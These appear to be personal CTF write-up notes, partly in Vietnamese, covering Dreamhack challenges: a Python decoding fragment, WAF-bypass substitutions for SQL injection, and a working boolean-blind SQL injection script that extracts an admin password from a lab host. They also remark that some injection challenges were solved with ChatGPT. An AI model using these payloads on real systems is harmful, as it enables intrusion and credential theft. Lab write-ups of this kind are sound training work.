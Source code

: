 ```

    print(f'org: {org}')
    st = ['' for i in range(16)]

    for i in range (0, 16):
        res = (org >> (4 * i)) & 0xf
        if 0 < res < 12:
            if ~res & 0xf == 0x4:
                st[16-i-1] = '_'
            else:
                st[16-i-1] = str(res)
        else:
            st[16-i-1] = format(res, 'x')
    menu_str = menu_str.join(st)
    return menu_str
def menu():
    menu = '1_c_3_c_0__ff_3e'

    menu = list(menu)

    for i, d in enumerate(menu):
        # '_'이면 11(b)로 저장
        if d == '_':
            menu[i] = 'b'
        elif d == 'c':
            menu[i] = 'c'
        elif d == 'd':
            menu[i] = 'd'
        elif d == 'e':
            menu[i] = 'e'
        elif d == 'f':
            menu[i] = 'f'
    s = ''.join(str(s) for s in menu)
    return(int(s, 16))
menu_str = org()
org = menu()
print(f'org: {org}')
```

### simple_sqli_chatgpt
- Câu này thật sự có thể solve bằng Chatgpt =))
### command-injection-chatgpt
- y chang câu trên
### sql injection bypass WAF
- OR = ||
- AND = &&
- admin = reverse(\"nimda\")
- Boolean based Blind SQL Injection để đoán từng kí tự của passwd
```py
import requests

flag = ""
for i in range(1,50):
    for j in range(32, 128):
        url = "http://host3.dreamhack.games:21783/?uid='||uid%3Dreverse(\"nimda\")%26%26if(ascii(substr(upw%2C{}%2C1))%3D{}%2Ctrue%2Cfalse)%23".format(i,j)

        res = requests.get(url)
        if 'admin' in res.text:
            flag += chr(j)
            print(flag)
```